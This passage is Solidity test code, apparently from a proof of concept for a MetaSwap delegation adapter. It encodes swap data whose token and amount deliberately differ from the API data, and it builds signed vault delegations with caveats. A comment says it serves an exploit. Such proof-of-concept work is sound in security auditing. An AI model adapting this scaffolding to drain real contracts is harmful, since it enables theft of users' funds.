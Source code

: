 ```solidity
        uint256 _amountTo
    )
        internal
        pure
        returns (bytes memory)
    {
        // Following MetaSwap's expected structure
        return abi.encode(
            _actualTokenFrom, // Actual token from (can be different from apiData)
            _tokenTo,
            _actualAmountFrom, // Actual amount (can be different from apiData)
            _amountTo,
            bytes(""), // Not important for the exploit
            uint256(0), // No fee
            address(0), // No fee wallet
            false // No fee to
        );
    }

    function _getVaultDelegationCustom() internal view returns (Delegation memory) {
        Caveat[] memory caveats_ = new Caveat[](4);

        caveats_[0] = Caveat({ args: hex"", enforcer: address(allowedTargetsEnforcer), terms: abi.encodePacked(address(tokenA)) });

        caveats_[1] =
            Caveat({ args: hex"", enforcer: address(allowedMethodsEnforcer), terms: abi.encodePacked(IERC20.transfer.selector) });

        uint256 paramStart_ = abi.encodeWithSelector(IERC20.transfer.selector).length;
        address paramValue_ = address(delegationMetaSwapAdapter);
        // The param start and and param value are packed together, but the param value is not packed.
        bytes memory inputTerms_ = abi.encodePacked(paramStart_, bytes32(uint256(uint160(paramValue_))));
        caveats_[2] = Caveat({ args: hex"", enforcer: address(allowedCalldataEnforcer), terms: inputTerms_ });

        caveats_[3] = Caveat({
            args: hex"",
            enforcer: address(redeemerEnforcer),
            terms: abi.encodePacked(address(delegationMetaSwapAdapter))
        });

        Delegation memory vaultDelegation_ = Delegation({
            delegate: address(subVault.deleGator),
            delegator: address(vault.deleGator),
            authority: ROOT_AUTHORITY,
            caveats: caveats_,
            salt: 0,
            signature: hex""
        });
        return signDelegation(vault, vaultDelegation_);
    }

    function _getSubVaultDelegationCustom(
        bytes32 _parentDelegationHash,
        uint256 amount
    )
        internal
        view
        returns (Delegation memory)
    {
```